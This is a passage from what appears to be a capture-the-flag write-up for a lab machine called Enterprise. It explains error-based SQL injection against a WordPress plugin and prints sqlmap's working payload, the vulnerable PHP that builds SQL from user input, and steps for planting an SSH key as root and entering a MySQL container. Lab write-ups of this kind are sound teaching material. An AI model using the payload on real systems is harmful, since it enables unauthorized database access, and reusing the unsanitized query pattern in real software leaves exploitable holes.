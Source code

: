 And I can get `root.txt`:



    $ cat /root/root.txt
    cf941b35************************



## Beyond Root - Error-Based SQLI

### sqlmap Query

The example for the error-based injection that `sqlmap` gave was:



    query=1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)



Throwing that into Firefox returns:

![](/img/image-20210616094508546.png)

The challenge here is that the plugin is printing the result of
`$db->query`:



        $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
        $result = $db->query($sql);
        echo $result;



On a good query, that's an object which leads to an error. But if I can
make the query error out, then what returns into `$result` is an error
string, and that will `echo` without error.

To show this, I'll drop an SSH key into `/root/.ssh/authorized_keys` on
Enterprise and get a better shell. Then I can drop into the `mysql`
docker container:



    root@enterprise:~# docker ps
    CONTAINER ID        IMAGE                     COMMAND                  CREATED             STATUS              PORTS                  NAMES
    a7018bfdc454        joomla:apache-php7        "/entrypoint.sh ap..."   3 years ago         Up 18 hours         0.0.0.0:8080->80/tcp   joomla
    b8319d86d21e        wordpress:php5.6-apache   "docker-entrypoint..."   3 years ago         Up 18 hours         0.0.0.0:80->80/tcp     wordpress
    15af95635b7d        mysql:latest              "docker-entrypoint..."   3 years ago         Up 18 hours         3306/tcp               mysql
    root@enterprise:~# docker exec -it mysql bash
    root@15af95635b7d:/#
